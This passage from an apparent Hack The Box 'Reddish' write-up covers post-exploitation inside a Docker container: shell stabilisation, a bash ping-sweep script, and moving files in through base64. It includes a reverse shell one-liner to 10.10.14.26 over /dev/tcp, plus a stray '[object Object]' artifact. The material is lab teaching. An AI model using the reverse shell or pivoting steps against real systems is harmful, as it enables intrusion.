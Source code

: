 
To get a more stable tty another shell is sent from the one obtained on port 9001 to another one on port 443.

```bash
[object Object]bash -c "bash -i > /dev/tcp/10.10.14.26/443 0>&1" &
```


Once the new shell is received proceed to stabilize the shell:

- script /dev/null -c bash
- (ctrl+z)
- stty raw -echo; fg
- reset xterm (press Enter)
- stty rows 39 columns 155 (adapt this to your stty size)
- export TERM=xterm
- export SHELL=bash

![shell container 1](/assets/img/htb/reddish/shell_container_1.png)

The interfaces found in the hostname and the presence of a .dockerenv reveal that this is a docker container in a different network and the possibility of more containers existing. Proceed enumerating for more hosts a script in bash is created on the attacker machine and then transfered to nodered container.

ping sweep script

```bash
#!/bin/bash

if [ -z "$1" ]; then
  echo -e "Provide the first 3 octets of the network to scan\nusage: $0 192.168.56"
else
  network="$1"
  echo -e "\n--- SCAN ON HOST $network.(1..255) ---"
  for host in {1..255}; do
  ( 
  ping -c 1 -w 1 $network.$host >/dev/null 2>&1 && echo -e "\t[+] Active Host $network.$host" 
  ) &
  done
  wait
  echo "--- Finished scan ---"
fi
```

Since nodered container lacks of binaries like curl, wget, nc, there are two ways to transfer files from the attacker machine to nodered container, encoding the script in base64, copying the encoded result and pasting the decoded result to a file.

```bash
[Attacker] cat hostscan.sh | base64 -w0 | xclip -sel clip

[Container1] echo <base64 encoded> | base64 -d > hostscan.sh
```

The second option is using a [function that will act as curl](https://unix.stackexchange.com/questions/83926/how-to-download-a-file-using-just-bash-and-nothing-else-no-curl-wget-perl-et) using pure bash and pasting it on nodered container.
